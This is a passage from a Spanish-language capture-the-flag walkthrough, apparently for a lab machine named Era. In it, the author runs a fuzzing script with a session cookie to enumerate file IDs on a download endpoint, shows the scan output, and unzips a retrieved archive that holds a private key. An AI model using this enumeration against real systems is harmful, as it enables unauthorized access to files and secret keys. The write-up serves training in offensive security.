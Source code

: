 Poniendo nuestra `Cookie` de sesion en el script, lo ejecutaremos de esta forma:

```shell
bash fuzzID.sh
```

Info:

```
[+] Probando IDs del 1 al 1000...
[+] Buscando archivos existentes...
[+] Guardando resultados en: results.txt
Procesados: 50/1000 - Válidos: 0
[+] ID VÁLIDO: 54 - Archivo:  - Tamaño: 6379 bytes
Procesados: 100/1000 - Válidos: 1
[+] ID VÁLIDO: 150 - Archivo:  - Tamaño: 6367 bytes
Procesados: 150/1000 - Válidos: 2
Procesados: 200/1000 - Válidos: 2
Procesados: 250/1000 - Válidos: 2
Procesados: 300/1000 - Válidos: 2
Procesados: 350/1000 - Válidos: 2
Procesados: 400/1000 - Válidos: 2
Procesados: 450/1000 - Válidos: 2
Procesados: 500/1000 - Válidos: 2
Procesados: 550/1000 - Válidos: 2
Procesados: 600/1000 - Válidos: 2
Procesados: 650/1000 - Válidos: 2
Procesados: 700/1000 - Válidos: 2
Procesados: 750/1000 - Válidos: 2
Procesados: 800/1000 - Válidos: 2
Procesados: 850/1000 - Válidos: 2
Procesados: 900/1000 - Válidos: 2
Procesados: 950/1000 - Válidos: 2
Procesados: 1000/1000 - Válidos: 2
[+] Escaneo completado.
[+] Total de archivos encontrados: 2

[+] Resumen:
ID: 54 - Archivo:  - URL: http://file.era.htb/download.php?id=54
ID: 150 - Archivo:  - URL: http://file.era.htb/download.php?id=150
```

Veremos que ha encontrado `2` `IDs`, si entramos en ellos uno sera de un archivo llamado `site-backup-30-08-24.zip` y el otro llamado `signing.zip`, vamos a descargarnos los dos archivos e investigar que pueden contener.

Si descomprimimos el primer archivo:

```shell
unzip signing.zip
```

Info:

```
Archive:  signing.zip
  inflating: key.pem                 
  inflating: x509.genkey
```
